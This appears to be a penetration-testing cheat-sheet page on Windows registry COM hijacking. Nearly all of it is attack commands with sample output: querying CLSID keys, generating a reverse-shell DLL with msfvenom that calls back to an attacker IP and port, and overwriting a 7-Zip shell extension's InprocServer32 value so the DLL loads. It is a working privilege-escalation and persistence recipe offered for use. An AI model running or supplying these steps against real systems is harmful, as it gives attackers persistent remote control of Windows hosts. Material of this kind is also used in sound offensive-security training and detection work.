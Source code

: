 ```yaml
---
title: "Registry"
date: 2025-7-14
tags: ["Windows", "Registry", "reg.exe", "Windows Internals", "Persistence", "COM Hijacking", "DLL Injection"]
---
```


### Privesc #1: COM Hijacking

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Query Registry

```console
# Queries all CLSID entries recursively
reg query HKCR\CLSID /s
```

```console
# Queries CLSID entries containing KEYWORD recursively
reg query HKCR\CLSID /s /f "<KEYWORD>"
```

```console {class="sample-code"}
PS C:\Windows\system32> reg query HKCR\CLSID /s /f "zip"
reg query HKCR\CLSID /s /f "zip"

HKEY_CLASSES_ROOT\CLSID\{2317---[SNIP]---20000}
    (Default)    REG_SZ    7-Zip Shell Extension

HKEY_CLASSES_ROOT\CLSID\{2317---[SNIP]---20000}\InprocServer32
    (Default)    REG_SZ    C:\Program Files\7-Zip\7-zip.dll

---[SNIP]---
```

#### 2. Create Malicious DLL

```console
msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f dll --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.dll
```

```console {class="sample-code"}
$ msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f dll --platform windows LHOST=10.10.10.10 LPORT=1337 > rev.dll
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
```

#### 2. Replace Default Value

```console
reg add "HKLM\Software\Classes\CLSID\<CLSID>\InprocServer32" /ve /d "<CUSTOM_DLL>" /f
```

```console {class="sample-code"}
PS C:\Windows\system32> reg add "HKLM\Software\Classes\CLSID\{2317---[SNIP]---20000}\InprocServer32" /ve /d "C:\programdata\rev.dll" /f
reg add "HKLM\Software\Classes\CLSID\{2317---[SNIP]---20000}\InprocServer32" /ve /d "C:\programdata\rev.dll" /f
The operation completed successfully.
```

{{< /tabcontent >}}
